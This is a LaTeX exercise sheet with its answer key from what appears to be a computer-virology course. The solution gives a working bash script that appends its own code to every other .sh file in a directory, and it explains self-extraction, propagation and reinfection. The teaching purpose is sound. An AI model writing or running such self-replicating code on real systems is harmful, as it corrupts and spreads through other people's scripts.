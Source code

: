 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{enumerate}
\item[\textbf{1b)}] Test: create \texttt{cible1.sh} and \texttt{cible2.sh} (simple \texttt{echo} scripts). Execute the virus, then the targets. Does the host code still execute?

\item[\textbf{1c)}] Execute an infected file. What happens? Why?
\end{enumerate}

\begin{correction}

\textbf{1a)} The following script implements a simple appending virus:
\begin{lstlisting}[title=vbashx\_phase1.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 1 ---
VIRUS_SIZE=7
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        tail -n $VIRUS_SIZE "$0" >> "$f"
    fi
done
\end{lstlisting}

\textbf{1b)} After executing the virus, the target files contain their original code followed by the viral code. When a target is executed, the host code runs first (the \texttt{echo} commands display their messages), then the viral code runs and spreads the infection to other \texttt{.sh} files.

\textbf{1c)} When an infected file is executed, it spreads the virus to other \texttt{.sh} files in the directory. This is \textbf{peer-to-peer propagation}: each infected file becomes an infection vector in turn.

\begin{attention}
The virus suffers from a major problem: it \textbf{reinfects} already-infected files on every execution. File sizes grow indefinitely. This problem will be solved in Phase 2.
\end{attention}

\begin{pointcle}
\begin{itemize}
    \item \texttt{tail -n K \$0} enables \textbf{self-extraction} of the viral code from the currently running file.
    \item The \texttt{>>} operator appends to a file without overwriting existing content.
    \item The viral code executes \textbf{after} the host code: the original program remains functional.
    \item The value of \texttt{VIRUS\_SIZE} must \textbf{exactly} match the number of lines of the viral code (from the start comment to the final \texttt{done}).
\end{itemize}
\end{pointcle}


\end{correction}
\end{exercice}
\end{document}
